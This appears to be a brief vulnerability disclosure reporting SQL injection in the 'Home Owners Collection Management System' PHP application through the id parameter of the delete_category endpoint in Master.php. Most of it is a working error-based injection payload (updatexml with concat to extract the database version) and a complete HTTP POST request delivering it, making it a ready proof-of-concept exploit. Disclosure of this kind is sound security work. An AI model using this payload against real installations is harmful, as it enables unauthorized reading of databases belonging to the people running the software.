 ## Home Owners Collection Management System has SQL injection vulnerability

vendor : https://www.sourcecodester.com/php/15162/home-owners-collection-management-system-phpoop-free-source-code.html

Vulnerability file: /hocms/classes/Master.php?f=delete_category

Vulnerability location: /hocms/classes/Master.php?f=delete_category,id

[+]Payload: id=1' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+ //id is Injection point

```
POST /hocms/classes/Master.php?f=delete_category HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 64
Origin: http://localhost
Connection: close
Referer: http://localhost/hocms/admin/?page=categories
Cookie: PHPSESSID=ci380ocmbq38avhpab7jrmslmf
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=3' and updatexml(1,concat(0x7e,(select version()),0x7e),0)--+
```
<img width="1242" alt="image" src="https://github.com/reverseD0G/cve/assets/158311992/c0f006c5-7a66-4bfe-bc38-d652655d76fd">


